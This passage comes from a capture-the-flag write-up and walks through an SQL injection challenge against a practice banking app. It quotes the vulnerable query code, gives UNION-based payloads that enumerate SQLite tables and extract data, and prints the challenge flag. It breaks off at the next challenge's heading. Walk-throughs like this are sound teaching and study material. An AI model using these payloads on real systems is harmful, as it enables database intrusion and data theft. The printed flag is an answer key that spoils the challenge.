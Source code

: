 ## Challenge 4: Secure BankSys

**Challenge Type:** SQL Injection

By looking at the web app, we find there are three pages:
- Main page
- Accounts
- Login

In the accounts tab, we perform a simple SQL injection.

### Vulnerability Analysis

We know the webapp is vulnerable to SQLi. The vulnerability is in the `/search` route in `app.py`:

```python
sql_query = f"SELECT account_number, customer_name, balance, account_type FROM accounts WHERE account_number LIKE '%{query}%' OR customer_name LIKE '%{query}%' OR account_type LIKE '%{query}%'"
```

**Critical Issue:** The user input is directly concatenated into the SQL query without parameterization, making it vulnerable to SQL injection.

### Exploitation Steps

**1. Explore database structure with UNION-based injection:**
```sql
' UNION SELECT 1,2,3,4 --
```
This helps us determine the number of columns (4) and their data types.

**2. Find table names:**
```sql
' UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table' --
```
This reveals the tables: `accounts`, `users`, `internal_data`, and `search_logs`.

**3. Find column names:**
```sql
' UNION SELECT 1,2,3,sql FROM sqlite_master WHERE tbl_name = 'internal_data' -- -
```

**4. Extract flag from internal_data table:**
```sql
' UNION SELECT 1, content, 3, 4 FROM internal_data --
```

**Flag:** `Spark{G00d_J0B_K1nG_Y0u_4R3_C00k1nGG_1ZSQMLK9LQSX21}`

---

## Challenge 5: Shadow Graph 2

**Challenge Type:** SSRF to GraphQL SQL Injection Exploitation

### Step 1: Identifying Key Information
